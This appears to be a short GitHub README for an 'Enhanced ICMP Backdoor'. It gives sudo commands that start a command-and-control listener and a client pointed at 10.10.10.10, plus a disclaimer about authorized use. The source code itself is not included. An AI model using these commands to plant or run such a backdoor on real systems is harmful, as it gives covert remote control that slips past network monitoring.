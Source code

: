 <h1> Enhanced ICMP Backdoor </h1>

# Usage

- On server (listener)
<code>sudo python3 icmp_cnc.py -i eth0</code>

- On client
<code>sudo python3 icmp_client.py -i eth0 -d 10.10.10.10</code>

Tested on Kali Linux but should be compatible with almost everything.

Thanks to krabelize for the idea.
The code is "as-is", anything you do with it is your responsibility. Use it only in authorized enviroments. I take no credit for whatever illegal shit you do with it. Love ♥
